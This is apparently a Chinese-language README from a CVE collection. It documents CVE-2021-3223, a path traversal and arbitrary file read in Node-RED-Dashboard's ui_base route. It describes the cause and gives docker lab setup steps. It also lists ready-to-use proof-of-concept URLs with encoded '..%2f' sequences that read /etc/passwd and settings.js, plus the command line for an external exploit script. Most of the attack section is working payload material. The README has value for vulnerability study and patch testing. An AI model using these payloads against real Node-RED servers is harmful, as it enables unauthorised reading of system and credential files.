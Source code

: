 # CVE-2021-3223 Node-RED ui_base 任意文件读取漏洞

## 漏洞概述
Node-RED 在/nodes/ui_base.js中，URL与'/ui_base/js/*'匹配，然后传递给path.join

由于缺乏对最终路径的验证会导致路径遍历漏洞，可以利用这个漏洞读取服务器上的敏感数据，比如settings.js

## 漏洞影响
Node-RED-Dashboard < 2.26.2

## 环境搭建

漏洞环境
> https://github.com/errorecho/CVEs-Collection/tree/main/CVE-2021-3223/Env

运行漏洞环境
```
docker-compose up -d
```

访问`http://127.0.0.1:1880/`，环境运行成功


![1628240880046.png](./img/1628240880046.png)



## 漏洞利用

### POC
```
http://your-ip:1880/ui_base/js/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
http://your-ip:1880/ui_base/js/..%2f..%2f..%2f..%2fsettings.js
```

### EXP
exp脚本
> https://github.com/errorecho/CVEs-Collection/blob/main/CVE-2021-3223/Exp/CVE-2021-3223.py

使用方法
```
python CVE-2021-3223.py http://your-ip:1880 /etc/passwd outputfile
```


![1628241002605.png](./img/1628241002605.png)
